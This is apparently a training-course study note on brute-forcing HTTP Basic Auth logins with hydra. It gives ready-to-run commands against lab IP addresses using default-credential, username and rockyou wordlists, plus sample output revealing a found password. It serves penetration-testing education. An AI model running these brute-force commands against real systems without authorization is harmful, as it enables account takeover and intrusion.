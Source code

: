 # ☄️ Basic HTTP Auth Brute Forcing

To install hydra -> "`apt install hydra -y`" or download it and use it from its [Github Repository](https://github.com/vanhauser-thc/thc-hydra)

It's good to start with lists of default passwords such as `test:test,`if we could not find any working pairs, we would move to use separate wordlists

Good lists are from seclist in the `/usr/share/seclists/Passwords/Default-Credentials`

```shell-session
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
```

And the output will look something like that:

```shell-session
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-get://178.211.23.155:31099/
[31099][http-get] host: 178.211.23.155   login: test   password: testingpw
[STATUS] attack finished for 178.211.23.155 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

_**Using the technique you learned in this section, try attacking the IP shown above. What are the credentials used?**_

```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.50.83 -s 44054 http-get
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Credentials can also be separated by `usernames` and `passwords`. We can use the `-L` flag for the usernames wordlist and the `-P` flag for the passwords wordlist. Since we don't want to brute force all the usernames in combination with the passwords in the lists, we can tell `hydra` to stop after the first successful login by specifying the flag `-f`.

### Username/Password Attack

{% hint style="info" %}
"-u" flag so that it tries all users on each password and goes faster
{% endhint %}

```
 hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -P /opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```

### Username Brute Force

we can brute force passwords for the `test` user by adding `-l test`

If we already found the password in the previous section, we may statically assign it with the "`-p`" flag, and only brute force for usernames that might use this password.

```shell-session
hydra -L /opt/useful/SecLists/Usernames/Names/names.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```
